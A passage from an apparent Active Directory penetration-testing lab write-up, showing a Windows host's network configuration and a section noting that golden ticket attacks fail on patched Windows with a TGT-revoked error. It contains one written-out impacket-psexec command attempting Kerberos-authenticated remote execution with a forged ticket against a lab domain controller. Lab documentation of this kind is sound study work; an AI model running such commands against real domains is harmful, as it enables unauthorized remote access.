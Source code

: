 ```cmd
   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.17.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.17.1

Tunnel adapter isatap.{122DB809-79C7-4A57-9A51-76A6C8B0B97B}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

## 5.3. Golden Ticket Fixed?

Access denied and TGT revoked errors were seen when performing golden ticket attacks on newer updated Windows boxes

```console
root@kali:~# impacket-psexec lab.vx/nonexistentuser@192.168.17.11 -k -no-pass -dc-ip 192.168.17.11
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)
```

Read:

<https://github.com/SecureAuthCorp/impacket/issues/1390>

<https://www.varonis.com/blog/pac_requestor-and-golden-ticket-attacks>
